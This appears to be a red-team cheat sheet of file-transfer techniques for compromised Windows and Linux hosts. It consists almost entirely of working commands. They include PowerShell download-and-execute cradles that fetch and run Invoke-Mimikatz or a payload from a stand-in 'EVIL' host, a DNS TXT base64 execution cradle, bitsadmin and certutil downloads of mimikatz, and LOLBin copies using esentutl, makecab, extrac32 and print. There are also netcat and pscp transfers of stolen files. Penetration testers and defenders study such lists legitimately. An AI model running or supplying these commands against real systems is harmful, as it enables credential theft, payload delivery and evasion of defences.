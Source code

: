 # Ultimate File Transfer List

## powershell.exe

### powershell proxy authentication

$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')


### powershell 4.0 / 5.0 Invoke-WebRequest (works in constrained language mode)

Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"

from @harmj0y:

### powershell download cradles


* #### powershell 3.0+ download and execute (bypass IE firstrun check)

     IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)


* #### powershell (any version)

     powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"


     (New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")


* #### hidden IE com object

     $ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r


* #### Msxml2.XMLHTTP COM object

     $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


* #### WinHttp COM object

     [System.Net.WebRequest]::DefaultWebProxy
     [System.Net.CredentialCache]::DefaultNetworkCredentials
     $h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


### bitstransfer

Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r


// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record

IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))


from @subtee:

<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex

Links:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe

cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"

Links: 

https://www.greyhathacker.net/?tag=download-and-execute


## ssh / pscp.exe

pscp.exe C:\Users\Public\info.txt user@target:/tmp/info.txt
pscp.exe user@target:/home/user/secret.txt C:\Users\Public\secret.txt


## certutil.exe

certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1

Links:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe base64

certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0
echo {base64_data} | base64 -d > binary.exe


## WebDAV downloaders


### makecab.exe

C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab


### esentutl.exe

C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o


### extrac32.exe

C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt


### print.exe

C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe

Links:

https://twitter.com/Oddvarmoe/status/984749424395112448

for fuller list of WebDAV downloaders check @api0cradle LOLBINS/LOLBAS project:
https://github.com/api0cradle/LOLBAS/blob/master/LOLBins.md


## netcat

nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe


## web browser / server

python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork


## wget

wget http://10.10.10.10:80/info.txt -O /tmp/info.txt


## curl

curl -o /tmp/info.txt http://10.10.10.10:80/info.txt


## rdesktop

rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'




